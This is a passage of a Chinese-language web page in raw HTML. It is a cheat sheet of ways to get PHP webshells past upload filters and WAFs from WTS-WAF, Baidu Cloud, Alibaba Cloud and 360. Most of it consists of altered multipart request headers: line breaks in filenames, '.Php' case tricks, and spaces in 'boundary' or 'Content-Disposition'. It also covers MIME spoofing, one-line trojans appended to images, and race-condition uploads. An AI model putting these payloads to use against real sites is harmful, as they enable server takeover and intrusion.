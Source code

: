 绕过内容如下：
Content-Disposition: form-data; name=<span class="hljs-string">"image"</span>; filename=<span class="hljs-string">"085733uykwusqcs8vw8wky.png
C.php"</span>
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php<span class="hljs-string">".</span></code></pre>
<p>8.等效替换绕过</p>
<pre class="wp-block-code"><code class="hljs makefile">原内容：
<span class="hljs-section">Content-Type: multipart/form-data; boundary=---------------------------471463142114</span>
<span class="hljs-section">修改后:</span>
<span class="hljs-section">Content-Type: multipart/form-data; boundary =---------------------------471463142114</span>
boundary后面加入空格。</code></pre>
<p>9.修改编码绕过</p>
<pre class="wp-block-code"><code class="hljs">使用UTF-16、Unicode、双URL编码等等
</code></pre>
<h4 id="wts-waf-绕过上传">WTS-WAF 绕过上传</h4>
<pre class="wp-block-code"><code class="hljs bash">原内容：
Content-Disposition: form-data; name=<span class="hljs-string">"up_picture"</span>; filename=<span class="hljs-string">"xss.php"</span>
添加回车
Content-Disposition: form-data; name=<span class="hljs-string">"up_picture"</span>; filename=<span class="hljs-string">"xss.php"</span>
</code></pre>
<h4 id="百度云上传绕过">百度云上传绕过</h4>
<pre class="wp-block-code"><code class="hljs bash">百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; name=<span class="hljs-string">"up_picture"</span>; filename=<span class="hljs-string">"xss.jpg .Php"</span></code></pre>
<h4 id="阿里云上传绕过">阿里云上传绕过</h4>
<pre class="wp-block-code"><code class="hljs bash">源代码：
Content-Disposition: form-data; name=<span class="hljs-string">"img_crop_file"</span>; filename=<span class="hljs-string">"1.jpg .Php"</span>Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; name=<span class="hljs-string">"img_crop_file"</span>; filename=<span class="hljs-string">"1.php"</span>
没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。
</code></pre>
<h4 id="360主机上传绕过">360主机上传绕过</h4>
<pre class="wp-block-code"><code class="hljs bash">源代码:
Content-Disposition: form-data; name=<span class="hljs-string">"image"</span>; filename=<span class="hljs-string">"085733uykwusqcs8vw8wky.png"</span>Content-Type: image/png
绕过内容如下：
Content- Disposition: form-data; name=<span class="hljs-string">"image"</span>; filename=<span class="hljs-string">"085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格Disposition</span></code></pre>
<h4 id="mime类型绕过">MIME类型绕过</h4>
<pre class="wp-block-code"><code class="hljs">上传木马时，提示格式错误。直接抓包修改Content-Type 为正确的格式尝试绕过</code></pre>
<h4 id="文件内容检测绕过">文件内容检测绕过</h4>
<pre class="wp-block-code"><code class="hljs">抓包，在正常图片末尾添加一句话木马</code></pre>
<h4 id="多次上传win特性绕过">多次上传Win特性绕过</h4>
<pre class="wp-block-code"><code class="hljs css">多次上传同一个文件，<span class="hljs-selector-tag">windows</span>会自动更新补全<span class="hljs-selector-tag">TEST</span> (1)<span class="hljs-selector-class">.php</span>。
有时会触发条件竞争，导致绕过。</code></pre>
<h4 id="条件竞争绕过">条件竞争绕过</h4>
<pre class="wp-block-code"><code class="hljs">通过BURP不断发包，导致不断写入Webshell，再写入速度频率上超过安全软件查杀频率，导致绕过。</code></pre>
<h4 id="content-length绕过">CONTENT-LENGTH绕过</h4>
<pre class="wp-block-code"><code class="hljs">针对这种类型的验证，我们可以通过上传一些非常短的恶意代码来绕过。上传文件的大小取决于，Web服务器上的最大长度限制。我们可以使用不同大小的文件来fuzzing上传程序，从而计算出它的限制范围。</code></pre>
<h4 id="文件内容检测绕过">文件内容检测绕过</h4>